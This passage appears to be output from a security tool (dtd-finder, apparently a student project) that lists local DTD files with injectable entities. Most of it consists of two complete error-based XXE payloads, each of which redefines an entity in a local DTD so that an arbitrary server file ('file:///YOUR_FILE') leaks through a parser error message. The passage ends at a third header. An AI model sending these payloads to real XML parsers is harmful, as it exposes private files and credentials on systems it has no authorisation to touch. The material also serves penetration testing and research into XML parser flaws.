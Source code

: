  --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/jspxml.dtd`

**Injectable entity:** `URL`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/jspxml.dtd">

    <!ENTITY % URL '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/jspxml.dtd`

**Injectable entity:** `BeanID`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/jspxml.dtd">

    <!ENTITY % BeanID '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/jspxml.dtd`
